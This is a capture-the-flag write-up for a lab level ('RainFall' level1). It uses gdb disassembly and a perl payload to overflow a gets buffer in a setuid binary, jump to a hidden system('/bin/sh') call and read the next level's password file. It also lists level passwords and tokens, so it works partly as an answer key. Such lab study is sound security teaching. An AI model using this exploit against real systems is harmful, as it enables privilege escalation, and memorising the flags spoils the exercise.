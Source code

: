 # Level1 - Buffer overflow

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level1 | `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a` |
| level2 | `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77` |

## Steps to resolve on VM

1. Connect to `level1` user

```shell
ssh level1@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Notice there is a binary with level2 setuid.

2. Debug level1

Execute level1

```shell
./level1
> (stdin)
```

There is only a prompt. Lets disassemble the code.

```shell
gdb level1
(gdb) disas main

> 0x08048480 <+0>:     push   %ebp
  0x08048481 <+1>:     mov    %esp,%ebp
  0x08048483 <+3>:     and    $0xfffffff0,%esp
  0x08048486 <+6>:     sub    $0x50,%esp                ; 0x50 = 80
  0x08048489 <+9>:     lea    0x10(%esp),%eax
  0x0804848d <+13>:    mov    %eax,(%esp)
  0x08048490 <+16>:    call   0x8048340 <gets@plt>      ; call gets
  0x08048495 <+21>:    leave
  0x08048496 <+22>:    ret
```

Indeed, there is a `gets` syscall only.

```shell
(gdb) info functions

> (...)
  0x08048420  frame_dummy
  0x08048444  run
  0x08048480  main
  (...)
```

There is others functions. Lets see the function `run`

```shell
(gdb) disas run

> 0x08048444 <+0>:	push   %ebp
  0x08048445 <+1>:	mov    %esp,%ebp
  0x08048447 <+3>:	sub    $0x18,%esp
  0x0804844a <+6>:	mov    0x80497c0,%eax               ; 0x80497c0: stdout
  0x0804844f <+11>:	mov    %eax,%edx
  0x08048451 <+13>:	mov    $0x8048570,%eax              ; 0x8048570: "Good... Wait what?\n"
  0x08048456 <+18>:	mov    %edx,0xc(%esp)
  0x0804845a <+22>:	movl   $0x13,0x8(%esp)              ; 0x13 = 19
  0x08048462 <+30>:	movl   $0x1,0x4(%esp)               ; 0x1  = 1
  0x0804846a <+38>:	mov    %eax,(%esp)
  0x0804846d <+41>:	call   0x8048350 <fwrite@plt>       ; call fwrite("Good... Wait what?\n", 1, 19, stdout)
  0x08048472 <+46>:	movl   $0x8048584,(%esp)            ; 0x8048584: "/bin/sh"
  0x08048479 <+53>:	call   0x8048360 <system@plt>       ; call system("/bin/sh")
  0x0804847e <+58>:	leave
  0x0804847f <+59>:	ret
```

The function `run` contains a syscall `system` that executes `"/bin/sh"` and creates a subshell. As the binary `level1` is executed with level2 setuid, this function is interesting.

Unfortunately, the function `run` is not called in the main. We have to find a way to execute it.

3. Buffer overflow

We will use the buffer overflow attack.

We will take advantage of the buffer of `gets` function to execute the funtion `run`.

But first we need to know what is the buffer size. We noticed that 80bits (0x50) have been allocated. After many tries, we noticed

```shell
./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   # 75 chars

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  # 76 chars
> Illegal instruction (core dumped)

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa # 77 chars
> Segmentation fault (core dumped)
```

We got a error for "illegal instruction" with 76 chars, and a segfault with 77 chars. We can deduct the buffer size wich is 76 with the ending '\0'.
The 4 bits remaining are reserved for EIP register that contains the next instruction.

Now we know the buffer size, we have to append to address of our function.

The address of `run` is: 0x08048444

```shell
(gdb) show endian

> The target endianness is set automatically (currently little endian)
```

It means we have to reverse the address. `0x08048444 => 0x44840408`

Now we have everything we need, we can create the overflow.

```shell
perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null | ./level1

> Good... Wait what?
> Segmentation fault (core dumped)
```

A string appears here. It means the overflow works and the function `run` has been executed.
We have to keep the stdin open.

```shell
export OVERFLOW=`perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null`
(echo $OVERFLOW && cat) | ./level1

> Good... Wait what?
> (stdin) cat /home/user/level2/.pass
>> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Sources

### Buffer overflow

- [How to write a buffer overflow exploit](https://jvns.ca/blog/2013/10/28/day-17-buffer-overflows/)
- [Exploit a basic buffer overflow](https://myexperiments.io/exploit-basic-buffer-overflow.html)

### ASM explications

- [Stack buffer size is different between C and ASM](https://reverseengineering.stackexchange.com/questions/17075/stack-buffer-size-is-different-between-c-and-asm)

### Shell

- [Man gets](https://linux.die.net/man/3/gets)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
- [Piping data to a process's stdin without causing EOF afterward](https://unix.stackexchange.com/questions/103885/piping-data-to-a-processs-stdin-without-causing-eof-afterward)
